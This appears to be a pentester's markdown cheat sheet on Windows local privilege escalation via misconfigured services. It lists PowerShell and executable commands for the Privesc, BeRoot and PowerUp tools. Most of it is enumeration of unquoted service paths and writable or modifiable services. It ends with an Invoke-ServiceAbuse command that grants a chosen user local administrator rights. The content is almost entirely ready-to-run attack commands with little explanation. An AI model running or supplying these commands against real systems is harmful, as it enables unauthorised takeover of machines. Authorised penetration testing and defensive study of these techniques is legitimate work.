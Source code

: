 # Local privilege escalation
Focussing on Service issues

#### Privesc check all
https://github.com/enjoiz/Privesc
```
. .\privesc.ps1
Invoke-PrivEsc
```

#### Beroot check all
https://github.com/AlessandroZ/BeRoot
```
./beRoot.exe
```

####  Run powerup check all
https://github.com/HarmJ0y/PowerUp
```
. ./Powerup.ps1
Invoke-allchecks
```

####  Run powerup get services with unqouted paths and a space in their name
```
Get-ServiceUnquoted -Verbose
Get-ModifiableServiceFile -Verbose
```

####  Get services where the current user can write to its binary path or change arguments to the binary
```
Get-ModifiableServiceFile -Verbose
```

#### Get the services whose configuration current user can modify.
```
Get-ModifiableService -Verbose
```

####  Abuse service to get local admin permissions with powerup
```
Invoke-ServiceAbuse
Invoke-ServiceAbuse -Name '<SERVICE NAME>' -UserName '<DOMAIN>\<USERNAME>'
```
